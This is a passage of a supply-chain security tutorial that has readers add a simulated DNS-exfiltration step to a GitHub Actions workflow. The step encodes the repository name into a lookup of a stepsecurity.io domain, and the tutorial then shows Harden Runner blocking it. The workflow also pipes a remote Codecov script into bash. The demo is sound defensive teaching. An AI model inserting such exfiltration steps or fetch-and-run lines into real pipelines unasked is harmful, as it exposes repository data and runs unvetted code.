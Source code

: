     ```yaml
    - name: Simulate DNS traffic
        run: |
          domain="${GITHUB_REPOSITORY}.stepsecurity.io"
          domain=${domain//\//-}
          nslookup "${domain}"
    ```
    The updated file should look like this:
    ```yaml
    name: Test and coverage

    on: [push, pull_request, workflow_dispatch]

    jobs:
      build:
        runs-on: ubuntu-latest
        steps:
          #Add StepSecurity Harden Runner from here onwards
          - uses: step-security/harden-runner@v1
            with:
              allowed-endpoints: 
                codecov.io:443
                github.com:443
          - uses: actions/checkout@v2
            with:
              fetch-depth: 2
          - uses: actions/setup-go@v2
            with:
              go-version: '1.17'
          - name: Run coverage
            run: go test -race -coverprofile=coverage.txt -covermode=atomic
          - name: Upload coverage to Codecov
            run: |
              bash <(curl -s https://codecov.io/bash)
          - name: Simulate DNS traffic
            run: |
              domain="${GITHUB_REPOSITORY}.stepsecurity.io"
              domain=${domain//\//-}
              nslookup "${domain}"
      ```

9. This change should cause the workflow to run, as it is set to run on push.

10. Observe that the workflow shows an annotation that the DNS resolution for the call is blocked. If you look at the build logs, you will notice that the bash script did not receive a valid response from the DNS server, and the exfiltration attempt was blocked. 

    <img src="https://raw.githubusercontent.com/step-security/supply-chain-goat/main/images/DNSExfilBlocked.png" alt="Blocked calls are shown in Red" width="800">
